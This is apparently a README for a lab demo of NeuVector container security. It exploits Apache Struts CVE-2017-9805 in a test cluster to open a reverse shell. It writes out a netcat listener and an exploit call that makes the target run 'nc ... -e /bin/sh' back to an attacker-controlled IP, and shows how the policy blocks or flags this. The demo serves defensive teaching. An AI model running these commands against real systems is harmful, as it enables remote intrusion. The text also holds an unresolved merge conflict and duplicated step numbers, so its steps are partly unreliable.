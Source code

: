 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
<<<<<<< HEAD
install_orders     = true
=======
install_kali = true
install_order     = true
>>>>>>> main
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `protect mode`

4. connect to the client with ssh (see connection string in terraform output) and start a nc process to act as reverse shell
```
nc -lvp 1337

```

5. in a second terminal, ssh to the client (see connection string in terraform output) and execute the attack payload. The exact command is written to `~/struts1.sh` and can be executed with
```
sh struts1.sh
```

6. Look in the Neuvector security events how the Struts RCE is blocked

7. Put the policy group `nv.struts-orders.default` in `monitor mode` and execute the rce payload again
```
sh struts1.sh
```
notice how the orders workload connects to the reversed shell and execute some commands there, like `whoami` `ls -l`, etc...

8. Look in the Neuvector security events how Neuvector now warns about different violations on the security policy, each warning is one layer of protection so even if this was a zero day the other warnings would block the attempt in protect mode.

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the reverse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
